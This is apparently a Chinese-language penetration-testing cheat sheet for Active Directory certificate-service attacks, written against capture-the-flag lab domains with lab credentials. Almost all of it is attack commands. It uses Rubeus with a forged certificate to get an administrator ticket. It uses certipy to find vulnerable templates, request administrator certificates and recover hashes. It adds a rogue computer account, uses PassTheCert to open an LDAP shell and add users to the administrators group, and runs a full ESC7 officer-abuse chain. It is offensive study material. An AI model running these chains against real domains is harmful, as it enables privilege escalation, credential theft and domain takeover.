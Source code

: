 ```powershell
upload Rubeus.exe 
upload cert.pfx
.\Rubeus.exe asktgt /user:administrator /certificate:.\cert.pfx /getcredentials /show /nowrap
(传递伪造的证书以作为管理员获取TGT票据信息)
```
拿到 HTLM 的 HASH

**0x02 certipy-ad** (KALI)
```bash
certipy-ad find -u ryan.cooper -p NuclearMosquito3 -target sequel.htb -text -stdout -vulnerable
 
addcomputer.py 'authority.htb/svc_ldap:lDaP_1n_th3_cle4r!' -method LDAPS -computer-name xek -computer-pass xekOnerR! -dc-ip 10.129.229.56 (创建计算机)

sudo ntpdate -u sequel.htb

certipy req -username 'xek$' -password 'xekOnerR!' -ca AUTHORITY-CA -dc-ip 10.129.229.56 -template CorpVPN -upn administrator@authority.htb

certipy auth -pfx administrator.pfx
```
拿到 HTLM 的 HASH
如果不行则尝试以下方法:
```bash
[mkdir tmp; cd tmp]
certipy cert -pfx administrator.pfx -nocert -out administrator.key
certipy cert -pfx administrator.pfx -nokey -out administrator.crt

python ~/tool/PassTheCert/Python/passthecert.py -action ldap-shell -crt administrator.crt -key administrator.key -domain authority.htb -dc-ip 10.129.229.56
# https://github.com/AlmondOffSec/PassTheCert

add_user_to_group <User> administrators
```

- **ESC7 Attack**
```bash
certipy-ad ca -ca manager-DC01-CA -add-officer raven -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.73.38 -ns 10.129.73.38

其中 'manager-DC01-CA' 可以通过bloodhound查看

certipy-ad find -dc-ip 10.129.73.38 -ns 10.129.73.38 -u raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -vulnerable -stdout    (在ManageCa中可以看到已经存在了)
(certipy req -ca manager-DC01-CA -dc-ip 10.129.73.38 -u Raven -p 'R4v3nBe5tD3veloP3r!123' -template SubCA -target dc01.manager.htb -upn raven@manager.htb)

certipy-ad req -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.73.38 -ns 10.129.73.38  (可能不会保存成功)

certipy ca -ca manager-DC01-CA -issue-request 23 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.73.38 -ns 10.129.73.38
(如果保存不成功重新执行第一条添加命令)

certipy req -ca manager-DC01-CA -target dc01.manager.htb -retrieve 23 -username raven@manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.73.38 -ns 10.129.73.38   （检索颁发的证书）

sudo ntpdate IP/domain

certipy auth -pfx ./administrator.pfx -dc-ip 10.129.73.38 -ns 10.129.73.38  (获取hash)
```

